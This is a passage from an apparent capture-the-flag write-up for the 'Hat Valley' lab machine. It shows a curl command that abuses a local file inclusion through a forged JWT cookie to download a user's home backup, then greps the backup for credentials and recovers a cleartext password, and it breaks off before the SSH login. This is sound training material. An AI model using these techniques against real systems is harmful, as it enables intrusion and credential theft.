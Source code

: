 We can download this entire file using the LFI we have and `curl`.&#x20;

{% code overflow="wrap" %}
```bash
curl http://hat-valley.htb/api/all-leave -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ob21lL2JlYW4vRG9jdW1lbnRzL2JhY2t1cC9iZWFuX2JhY2t1cF9maW5hbC50YXIuZ3ogJyJ9.RGtm7jw23GjIU92tAoVDo7sNsxemHZZGB9-vvarH9uQ' -o backup.tar.gz
```
{% endcode %}

Afterwards, we can use `tar xf backup.tar.gz` to open it up and view the files. I filtered it to include `password` and `bean` the username.&#x20;

```
$ ls    
backup.tar.gz       Desktop    Downloads  Pictures  snap       time.txt
bean_backup.tar.gz  Documents  Music      Public    Templates  Videos

$ grep -iRl 'password' ./ 2> /dev/null
./.config/evolution/sources/system-proxy.source

$ grep -iRl 'bean' ./ 2> /dev/null           
./.config/xpad/content-DS1ZS1
./.config/gtk-3.0/bookmarks
./.config/ibus/bus/ee6a821b27764b4d9e547b4690827539-unix-wayland-0
./.config/ibus/bus/ee6a821b27764b4d9e547b4690827539-unix-0
./.bashrc
./snap/snapd-desktop-integration/current/.config/user-dirs.dirs
./snap/snapd-desktop-integration/14/.config/user-dirs.dirs
./Documents/backup_home.sh
```

Within the `xpad` file, we can find a password:

```
 cat ./.config/xpad/content-DS1ZS1                  
TO DO:
- Get real hat prices / stock from Christine
- Implement more secure hashing mechanism for HR system
- Setup better confirmation message when adding item to cart
- Add support for item quantity > 1
- Implement checkout system

boldHR SYSTEM/bold
bean.hill
014mrbeanrules!#P
```

We can use this to `ssh` in:
